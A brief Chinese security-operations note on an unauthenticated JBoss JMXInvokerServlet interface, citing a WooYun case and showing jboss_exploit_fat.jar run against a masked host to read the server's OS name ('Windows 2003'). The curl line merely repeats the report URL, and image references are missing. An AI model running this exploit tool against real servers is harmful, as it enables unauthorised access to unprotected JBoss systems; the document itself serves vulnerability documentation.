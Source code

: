 inovker接口未配置认证信息

yy.yy.yy.yy/invoker/JMXInvokerServlet

![](\assets\img\安全运维\file_html_51cd584709c21a49.png)


案例<http://www.wooyun.org/bugs/wooyun-2010-0121861>中使用curl命令：

curl <http://www.wooyun.org/bugs/wooyun-2010-0121861>

![](\assets\img\安全运维\file_html_ce74e6ffdf131681.png)


查看系统名称：

C:\\Users\\Aerfa&gt;java -jar c:/jboss\_exploit\_fat.jar -i
http://yy.yy.yy.yy/invoker/JMXInvokerServlet get jboss.system:type=ServerInfo OSName

Windows 2003
